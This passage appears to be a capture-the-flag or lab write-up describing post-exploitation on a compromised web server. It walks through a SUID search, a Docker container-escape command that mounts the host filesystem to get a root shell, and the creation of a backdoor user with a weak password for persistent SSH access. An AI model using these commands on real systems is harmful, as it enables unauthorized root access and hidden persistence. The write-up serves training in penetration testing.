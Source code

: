 Futher investigate the server we notice that the running web app is actually a Docker container, and that the ssh server is active on the Docker interface as well (very insecure configuration):

    www-data@ip-10-200-95-33:/var/www/html$ ifconfig 
    br-19e3b4fa18b8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.1  netmask 255.255.255.0  broadcast 192.168.100.255
    ...
    eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.200.95.33  netmask 255.255.255.0  broadcast 10.200.95.255

Again I performed the usual step to privilege escalation. This time looking for SUID binary I found:

     find / -perm -u=s -type f 2>/dev/null
    /usr/lib/eject/dmcrypt-get-device
    ...
    /usr/bin/docker
    ...

Actually I didn't know how to abuse docker binary to escalate my privilege. Searching around I found this [resource](https://gtfobins.github.io/gtfobins/docker). We can try a container escape tecnique to elevate to root.
It took me a while to realize what is this alpine value used in the sample command, that is the name of a running docker image:tag
We can search for running docker images as follows:

    docker images -a
    REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
    ....
    <none>              <none>              d9c4bf86bc87        3 years ago         63.5MB
    ubuntu              18.04               56def654ec22        3 years ago         63.2MB

The last result row is the one we can use as value for the parameter. The command should return a shel with root privilege:

    docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt bash
    the input device is not a TTY
Investigating the error, since our current shell is not a full TTY, the solution is to get rid of the -t option. So the actual command to exploit it is:

    docker run -v /:/mnt --rm -i ubuntu:18.04 chroot /mnt bash
    <r run -v /:/mnt --rm -i ubuntu:18.04 chroot /mnt sh
    id
    uid=0(root) gid=0(root) groups=0(root)

Since ssh is enabled I decided to create a new user to have a persistent access to the system:

    useradd -M support-it
    passwd support-it
    New password: Pwd1234
    Retype new password: Pwd1234
    passwd: password updated successfully

Then we can login with the newly created user using the host VPN IP:

    ssh support-it@10.200.95.33
    ...
    Could not chdir to home directory /home/support-it: No such file or directory
    $ /bin/bash
    support-it@ip-10-200-95-33:/$ 
